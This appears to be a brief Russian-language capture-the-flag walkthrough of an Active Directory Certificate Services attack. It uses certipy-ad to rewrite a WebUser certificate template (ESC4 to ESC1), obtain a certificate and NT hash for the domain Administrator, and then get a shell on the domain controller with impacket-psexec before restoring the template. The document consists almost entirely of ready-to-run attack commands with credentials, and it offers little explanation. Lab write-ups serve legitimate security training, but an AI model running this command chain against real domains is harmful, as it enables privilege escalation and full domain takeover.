 Изучаем сервер
```
certipy-ad find -u 'Bob@corp.local' -p 'b0b1sH@cker' -dc-ip 10.39.150.12 -stdout -vulnerable
```
Сохраняем конфигурацию чтобы восстановить шаблон после атаки
```
certipy-ad -debug template -u Bob@corp.local -p b0b1sH@cker -template WebUser -dc-ip 10.39.150.12  -target dc.corp.local -dc-host dc.corp.local -save-configuration esc4.json
```
Перезаписываем конфигурацию на стандартную чтобы появилась уязвимость ESC1
```
certipy-ad -debug template -u Bob@corp.local -p b0b1sH@cker -template WebUser -dc-ip 10.39.150.12  -target dc.corp.local -dc-host dc.corp.local -write-default-configuration
```
Получаем сертификат администратора
```
certipy-ad req -u 'Bob@corp.local' -p 'b0b1sH@cker' -dc-ip 10.39.150.12 -ca CA-CYBER -template WebUser -upn Administrator@corp.local
```
Выполняем атаку UnpackTheHash для получения хеша
```
 certipy-ad -debug auth -pfx administrator.pfx -domain corp.local  -dc-ip 10.39.150.12 
```

Подключаемся и забираем флаг
```
impacket-psexec -hashes ':<hash>f' Administrator@10.39.150.12
```


Восстанавливаем файл 
```
certipy-ad -debug template -u Bob@corp.local -p b0b1sH@cker -template WebUser -dc-ip 10.39.150.12  -target dc.corp.local -dc-host dc.corp.local -write-configuration esc4.json -h
```